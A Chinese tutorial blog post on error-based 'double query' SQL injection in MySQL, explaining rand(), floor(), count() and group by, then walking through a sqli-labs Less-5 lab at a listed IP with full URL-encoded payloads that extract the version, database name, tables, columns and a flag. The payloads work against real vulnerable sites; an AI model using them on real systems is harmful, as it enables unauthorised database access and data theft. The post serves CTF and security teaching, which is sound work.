

<!--
author: maomao
date: 2018-0２-２０
title:sql注入之双查询注入
category: web安全入门
status: publish
summary: 一些研究人员发现，使用group子句结合rand()函数以及像count(*)这样的聚合函数，在SQL查询的时候就产生错误。在产生错误的同时，会将我们查询的数据一起显示出来。但是这种报错是随机的。因此，我们便可以构造报错来获取我们需要的数据。
-->

##一、免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。

##二、什么是双查询

简单来说，双查询注入就是一个select语句中在嵌套一个select语句。具体如下图:

在执行上述语句的过程中，先执行select user()语句，然后再将该语句的结果传递给外面的select函数。由内到外依次执行。

##三、基本函数

首先我们先学习几个函数

1.rand()

>RAND 函数用于产生从0到1之间的随机数。

2.Floor()

>FLOOR(X)表示向下取整，只返回值X的整数部分，小数部分舍弃。

3.count()

>COUNT(*)函数返回由SELECT语句返回的结果集中的行数。COUNT(*)函数计算包含NULL和非NULL值的行，即：所有行。

4.group by

>GROUP BY 语句用于结合合计函数，根据一个或多个列对结果集进行分组。

不懂的可以看一下这里：

>http://www.w3school.com.cn/sql/sql_groupby.asp

5.concat()

>CONCAT 函数用于将两个字符串连接为一个字符串

##四、双查询注入原理

一些研究人员发现，使用group子句结合rand()函数以及像count(*)这样的聚合函数，在SQL查询的时候就产生错误。在产生错误的同时，会将我们查询的数据一起显示出来。但是这种报错是随机的。因此，我们便可以构造报错来获取我们需要的数据。

固定公式如下

>union select 1,count(*),concat(0x3a,0x3a,(注入语句),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a--+

报错注入看似比较难，但是使用相对简单。只要在注入语句处，换成我们前两次课程注入语句即可注入成功。

关于这几个函数在一起为什会报错在这里不做详细的叙述，有兴趣的可以看下面这篇文章

>http://www.anquan.us/static/drops/tips-14312.html

##五、实战

1.我们按照之前的方法逐步进行手工注入，当判断完列数，然后判断回显位置的时候.发现并没有回显位置。

拿出我们刚刚的固定公式，查一下数据库的版本。

>链接：
http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(version()),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

这里需要说明一点的是，因为这是是随机报错。如果一次报错没有出来，多次刷新即可。

2.查数据库名

>http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select%20database()),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

3.查表名

>http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

此时发现报错了，我们使用limit 0,1 来限制一下行数。

>LIMIT 子句可以被用于强制 SELECT 语句返回指定的记录数。MySQL LIMIT 接受一个或两个数字参数。参数必须是一个整数常量。如果给定两个参数，第一个参数指定第一个返回记录行的偏移量，第二个参数指定返回记录行的最大数目。初始记录行的偏移量是 0

我们可以通过查看limit参数来查看其他的表，比如我们查看第二行的表（limit 1,1）

>http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select%20table_name%20from%20information_schema.tables%20where%20table_schema=%27security%27%20limit%201,1),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

成功发现falg表。

4.查列名

http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select column_name from information_schema.columns where table_name ="flag" ),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

5.查数据

http://39.98.88.18:8080/sql/Less-5/index.php?id=1%27%20union%20select%201,count(*),concat(0x3a,0x3a,(select flag from flag ),0x3a,0x3a,floor(rand()*2))a%20from%20information_schema.columns%20group%20by%20a--+

##六、课后练习

CTF赛题地址：https://t.zsxq.com/UNbM33F
